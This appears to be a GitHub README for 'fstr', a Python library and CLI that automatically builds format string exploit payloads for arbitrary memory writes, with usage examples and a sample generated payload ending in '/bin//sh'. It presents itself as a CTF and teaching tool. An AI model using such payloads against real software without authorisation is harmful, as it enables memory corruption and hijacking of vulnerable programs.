

# fstr: Automatic format string payloads
fstr is a powerful tool which instantly generates payloads for arbitrary writes using format string vulnerabilities. Unlike other automated payload generators, fstr writes all addresses to the end of the payload instead of the beginning to make sure that the vulnerable printf acutally reaches all the format specifiers.


# Installation
Create a virtual environment if you haven't already:
```
python3 -m venv .venv
. .venv/bin/activate
```
Then install:
```
git clone https://github.com/TheKrizzler/fstr.git
pip3 install ./fstr
```
# Usage
This tool is primarily meant as a python library, but it also has a CLI.
## Python
To start off, create either a `FormatString64` or `FormatString32` object with the following arguments: writes, offset, prepend, append.  
  
Simply use the `.craft()` method to create the payload. This method will return the payload as a bytestring, so it can be saved and used later.
```python
from fstr import FormatString64

addr = 0x7fffffffdc00
data = 0x4011ae

fmtstr = FormatString64(writes={addr:data},offset=6,prepend='%4$x',append='/bin/sh\0')
payload = fmtstr.craft()
```
`write`: Takes a dictionary containing all desired writes.  
`offset`: An integer representing the offset at which your own input can be found using a format string vulnerablity. **The payload will not work if the offset is incorrect**  
`prepend`: A string to prepend to the payload. Please do not prepend the payload with anything manually unless you know what you're doing, use this argument instead.  
`append`: A string to append to the payload. Does the exact same thing as appending text manually.  
## CLI
Run the following command to see the help menu.
```
$ fstr -h
usage: fstr [-h] -w WRITE --arch {32,64} [-o OFFSET] [-p PREPEND] [-a APPEND] [--raw]

options:
  -h, --help            show this help message and exit
  -w WRITE, --write WRITE
                        REQUIRED - Specify a single address:data pair in hex, i.e 0x404000:0x1337. Can
                        be used multiple times.
  --arch {32,64}        REQUIRED - Specify either 32-bit or 64-bit architecture
  -o OFFSET, --offset OFFSET
                        Specify the offset at which your input is found using a format string vulnerability
  -p PREPEND, --prepend PREPEND
                        Specify a string to prepend to the payload
  -a APPEND, --append APPEND
                        Specify a string to append to the payload
  --raw                 Outputs the only final payload as raw bytes.
```
Example use:
```
$ fstr --arch 64 -w 0x404000:0x1337 -o 6 -p '%4$lx' -a '/bin//sh'
  __       _         
 / _|     | |        
| |_  ___ | |_  _ __ 
|  _|/ __|| __|| '__|
| |  \__ \| |_ | |   
|_|  |___/ \__||_|   
by @TheKrizzler
[*] b'%4$lx%10$hn%11$n%4919x%12$hn....\x02@@\x00\x00\x00\x00\x00\x04@@\x00\x00\x00\x00\x00\x00@@\x00\x00\x00\x00\x00/bin//sh'
[*] Length: 64
```
# Disclaimer
fstr is a tool designed exclusively for use in Capture The Flag (CTF) competitions and educational purposes. It is not intended for any illegal or malicious activities. The creators and distributors of fstr do not condone or support the use of this tool for unauthorized access or any activities that violate applicable laws and regulations. Users are responsible for ensuring that their use of fstr complies with all relevant legal requirements.
